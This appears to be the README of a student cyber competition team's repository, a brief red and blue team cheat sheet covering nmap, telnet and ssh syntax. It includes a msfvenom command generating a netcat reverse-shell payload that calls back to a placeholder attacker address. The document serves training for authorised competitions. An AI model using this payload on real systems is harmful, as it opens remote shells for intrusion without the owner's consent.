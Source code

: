# A Public Repository for the UAT Cyber Competition Team
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands\
nmap [flag(s)] [target/file]



References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## ACCESS

Telnet Commands:\
telnet [ip] [port]

SSH Commands:\
ssh username@IP

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using: 
```ifconfig

msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
